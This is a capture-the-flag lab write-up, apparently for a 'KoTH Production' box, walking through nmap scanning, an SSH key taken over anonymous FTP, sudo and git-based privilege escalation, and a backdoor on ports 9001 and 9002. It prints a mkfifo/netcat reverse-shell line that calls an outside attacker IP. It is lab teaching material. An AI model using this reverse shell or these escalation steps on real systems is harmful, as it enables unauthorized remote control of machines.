










# Koth Production

---------------------
## IP: `10.10.224.175`

---------------------
##### Let's search for Open Ports via Nmap: <br />

`nmap -sC -sV -oN nmap/initial 10.10.224.175`<br />

```
21
22
139
445
9001
9002
```



----------------------
##### We can see `anonymous` login enabled for `ftp`: <br />

> Let's login then (:<br />




We get id-rsa of a user, if we get the public key too, and cat that out we can see the id_rsa was of user `ashu`<br />

-----------------------
##### Login via user `Ashu`:<br />

First you need to give the id_rsa read,write permissions using<br />

`chmod 600 id_rsa`

Let's login-<br />

`ssh -i id_rsa ashu@10.10.224.175`

-------------------------
##### Getting root via user `ashu`:<br />

>Let's check for sudo abilities for ashu<br />

`sudo -l`<br />




We see, we can just directly switch to user `skidy` with sudo-<br />

`sudo su skidy`<br />


YAY!<br />

Now, before priv-esc, if we try to look into the home directory of user `skidy`, we will find a<br /> directory named `homework`, and in there there's a python script `server1.py`, if you cat that<br />
you'll find the password you need to enter to access the backdoor on port `9001`<br />



Let's check for the sudo abilities of user `skidy`:<br />



```
We see /usr/bin/git there, let's check its gtfo-bins page
```
[GTFO-BINS](https://gtfobins.github.io/gtfobins/git/)



> After doing-<br />

`sudo git -p help config`<br />

we can type `!/bin/bash` to get root<br />



------------------------
##### Getting Root via port `9001, 9002`:<br />

```
nc 10.10.224.175 9001
```

> It is a backdoor for user ashu...

put the pass we found in the python script in the home directory of user skidy `y......!`<br />



> On port 9001, do-<br />

`echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.91.66 8888 >/tmp/f" > /tmp/a; chmod +x /tmp/a`<br />



Now, let's use port `9002` to get a rev-shell on the port we put above-<br />

```
nc 10.10.224.175 9002
```

to get a rev-shell on port `8888`, start a netcat listener on your machine<br />

`nc -lnvp 8888`<br />

NOW on port 9002, run the command-<br />

```
/tmp/./a
```

> Yep, we got our shell as root (:<br />



-------------------
Thanks For Reading <3